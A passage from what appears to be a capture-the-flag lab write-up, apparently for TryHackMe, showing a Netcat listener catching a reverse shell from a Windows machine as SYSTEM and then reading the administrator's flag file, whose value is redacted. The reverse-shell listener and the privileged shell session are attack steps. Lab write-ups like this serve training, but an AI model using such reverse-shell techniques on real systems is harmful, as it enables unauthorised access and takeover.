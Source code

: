 This **executes** the **payload** silently, avoiding **user prompts**,
```shell
nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.17.XX.XXX] from (UNKNOWN) [10.10.XXX.XXX] 49820
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
& **connects** back to our **Netcat listener**.

---

### flags
Now that we have **obtained** a **SYSTEM shell**, it's time to explore the **file system** and locate the **admin flag**.

`2.` What is the **admin flag**?
```shell
C:\Users\Administrator\Desktop>dir

Volume in drive C has no label.
Volume Serial Number is A8A4-C362

Directory of C:\Users\Administrator\Desktop

06/06/2023  07:45 PM    <DIR>          .
06/06/2023  07:45 PM    <DIR>          ..
11/27/2023  07:50 PM                24 admin.txt
               3 File(s)          1,105 bytes
               2 Dir(s)  14,954,299,392 bytes free

C:\Users\Administrator\Desktop>type admin.txt
type admin.txt
THM{REDACTED}
C:\Users\Administrator\Desktop>
```
With this final **admin flag**, 